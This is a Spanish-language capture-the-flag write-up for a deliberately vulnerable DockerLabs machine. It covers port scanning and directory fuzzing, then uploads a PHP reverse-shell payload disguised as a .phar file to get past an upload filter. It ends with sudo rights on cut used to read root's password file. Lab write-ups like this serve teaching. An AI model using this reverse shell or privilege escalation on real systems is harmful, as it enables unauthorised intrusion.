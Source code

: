 ```yaml
---
icon: flag
---
```


# Dockerlabs DockerLabs (Easy)

## Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip dockerlabs.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh dockerlabs.tar
```

Info:

```

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-08 12:03 EST
Nmap scan report for asucar.dl (172.17.0.2)
Host is up (0.000033s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Dockerlabs
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.20 seconds
```

Si nos metemos en la pagina aparentemente no veremos nada interesante, por lo que `fuzzearemos` un poco:

## Gobuster

```shell
gobuster dir -u http://<IP>/ -w <WORDLIST> -x html,php,txt -t 100 -k -r
```

Info:

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,txt
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd.txt        (Status: 403) [Size: 275]
/.htpasswd.php        (Status: 403) [Size: 275]
/.htpasswd            (Status: 403) [Size: 275]
/.htaccess.txt        (Status: 403) [Size: 275]
/.htaccess.php        (Status: 403) [Size: 275]
/.htaccess.html       (Status: 403) [Size: 275]
/.htaccess            (Status: 403) [Size: 275]
/.htpasswd.html       (Status: 403) [Size: 275]
/index.php            (Status: 200) [Size: 8235]
/machine.php          (Status: 200) [Size: 1361]
/server-status        (Status: 403) [Size: 275]
/uploads              (Status: 200) [Size: 741]
/upload.php           (Status: 200) [Size: 0]
Progress: 81876 / 81880 (100.00%)
===============================================================
Finished
===============================================================
```

Vemos varias cosas interesantes, entre ellas la pagina `machine.php` que nos llevara a un `upload` para poder subir un archivo, por lo que vamos a intentar crearnos una `reverse shell` subiendo un archivo `.php`.

## Escalate user www-data

Si intentamos subir un archivo directamente con `PHP` nos aparecera esto:

```
No se permite la subida de archivos que no sean .zip
```

Por lo que haremos lo siguiente:

> shell.phar

```php
<?php
$sock=fsockopen("<IP>",<PORT>);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
?>
```

Pondremos el archivo en extension `.phar` para `Bypassear` el verificado, por lo que lo subiremos y nos iremos a la carpeta `/uploads`:

```
URL = http://<IP>/uploads/
```

Y antes de darle a nuestro archivo nos pondremos a la escucha.

```shell
nc -lvnp <PORT>
```

Seleccionamos el archivo en la web y si nos vamos a donde teniamos la escucha veremos que hemos obtenido una shell:

```
listening on [any] 7777 ...
connect to [192.168.120.128] from (UNKNOWN) [172.17.0.2] 46552
whoami
www-data
```

## Escalate Privileges

Sanitizaremos la shell (TTY):

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for www-data on a05f02578833:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User www-data may run the following commands on a05f02578833:
    (root) NOPASSWD: /usr/bin/cut
    (root) NOPASSWD: /usr/bin/grep
```

Por lo que vemos podemos ejecutar los binarios `cut` y `grep` como el usuario `root`, por lo que haremos lo siguiente:

Si nos vamos a `/opt` veremos una `nota.txt` que dice lo siguiente:

```
Protege la clave de root, se encuentra en su directorio /root/clave.txt, menos mal que nadie tiene permisos para acceder a ella.
```

Sabiendo esto haremos lo siguiente:

```shell
LFILE=/root/clave.txt
sudo cut -d "" -f1 "$LFILE"
```

Info:

```
dockerlabsmolamogollon123
```

Si probamos a poner como contraseña esa al usuario de `root` veremos que es dicha contraseña.

```shell
su root
```

Metemos como contraseña `dockerlabsmolamogollon123` y seremos `root`.
